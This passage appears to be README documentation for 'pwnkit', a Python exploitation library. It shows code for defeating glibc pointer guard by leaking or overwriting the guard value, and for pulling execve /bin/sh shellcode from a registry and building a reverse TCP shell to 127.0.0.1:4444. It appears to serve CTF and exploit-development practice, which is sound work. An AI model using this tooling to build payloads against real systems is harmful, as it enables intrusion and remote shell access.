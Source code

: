 And the Pointer Guard mechanism applies to function pointers and C++ vtables, introducing per-process randomness to protect against direct overwrites. After leaking or overwriting the guard value, the `PointerGuard` class can be used to perform the required mangle/detangle operations:

```py
guard = 0xdeadbeef	# leak it or overwrite it
pg = PointerGuard(guard)
ptr = 0xcafebabe
enc_ptr = pg.mangle(ptr)
dec_ptr = pg.demangle(enc_ptr)

# Verify
assert ptr == dec_ptr
```

#### Shellcode Generation

The `pwnkit` module also provides a shellcode generation framework. It comes with a built-in registry of ready-made payloads across architectures, along with flexible builders for crafting custom ones. Below are some examples of listing, retrieving, and constructing shellcode:

```py
# 1) List all built-in available shellcodes
for name in list_shellcodes():
    print(" -", name)
    
print("")

# 2) Retrieve by arch + name, default variant (min)
sc = ShellcodeReigstry.get("amd64", "execve_bin_sh")
print(f"[+] Got shellcode: {sc.name} ({sc.arch}), {len(sc.blob)} bytes")
print(hex_shellcode(sc.blob))   # output as hex

print("")

sc.dump()   # pretty dump

print("")

# 3) Retrieve explicit variant
sc = ShellcodeReigstry.get("i386", "execve_bin_sh", variant=33)
print(f"[+] Got shellcode: {sc.name} ({sc.arch}), {len(sc.blob)} bytes")
print(hex_shellcode(sc.blob))

print("")

# 4) Retrieve via composite key
sc = ShellcodeReigstry.get(None, "amd64:execveat_bin_sh:29")
print(f"[+] Got shellcode: {sc.name}")
print(hex_shellcode(sc.blob))

print("")

# 5) Fuzzy lookup
sc = ShellcodeReigstry.get("amd64", "ls_")
print(f"[+] Fuzzy match: {sc.name}")
print(hex_shellcode(sc.blob))

print("")

# 6) Builder demo: reverse TCP shell (amd64)
builder = ShellcodeBuilder("amd64")
rev = builder.build_reverse_tcp_shell("127.0.0.1", 4444)
print(f"[+] Built reverse TCP shell ({len(rev)} bytes)")
print(hex_shellcode(rev))
```